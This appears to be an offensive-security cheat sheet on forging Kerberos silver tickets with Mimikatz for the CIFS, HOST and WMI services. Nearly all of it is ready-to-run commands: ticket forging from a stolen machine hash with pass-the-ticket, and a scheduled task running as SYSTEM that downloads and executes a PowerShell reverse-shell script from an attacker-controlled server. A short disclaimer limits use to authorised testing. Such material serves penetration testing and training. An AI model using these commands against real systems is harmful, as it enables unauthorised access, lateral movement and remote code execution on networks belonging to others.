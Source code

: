 ```yaml
---
description: >-
  Discover everything you need to know about Silver Tickets in our comprehensive
  guide. Learn origins, uses, and important facts related to Silver Tickets.
---
```


# 🥈 Silver Tickets

### **Make silver ticket for CIFS**

Use the hash of the local computer

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Check Access (After CIFS silver ticket)**

```
ls \\<servername>\c$\
```

### **Make silver ticket for Host**

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Schedule and execute a task (After host silver ticket)**

```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

### **Make a silver ticket for WMI**

Execute for WMI /service:HOST /service:RPCSS

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

### **Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

#### Creating Kerberos Silver Tickets using Mimikatz

This section outlines the process to create Kerberos Silver Tickets for different services allowing unauthorized access to a domain-joined computer using the Mimikatz tool.

* **CIFS Silver Ticket:** To access shared files over the network (`CIFS` service), use the local computer's hash to create the ticket.
* **HOST Silver Ticket:** To perform tasks on the host computer (`HOST` service), again use the local computer's hash.
* **WMI Silver Ticket:** For Windows Management Instrumentation access (`WMI` service), create tickets with `HOST` and `RPCSS` services specified.

**Access Verification and Task Execution**

Check access to the server's shared drive after obtaining the CIFS ticket, and create a scheduled task on the target computer after obtaining the HOST ticket. The task will reverse-connect to an attacker-controlled server.

**Verify WMI Permissions**

After obtaining the WMI Silver Ticket, verify the permissions by querying the operating system details with `Get-wmiobject`.

***

#### Security Implications

The above instructions are indicative of malicious activities that are commonly associated with lateral movement and privilege escalation in cybersecurity breaches using forged Kerberos tickets. It is crucial to ensure that these instructions are used for legal purposes such as security training or penetration testing with appropriate permissions. Unauthorized use of these techniques is illegal and unethical.

### Sources

{% embed url="https://adsecurity.org/?p=2011" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets" %}
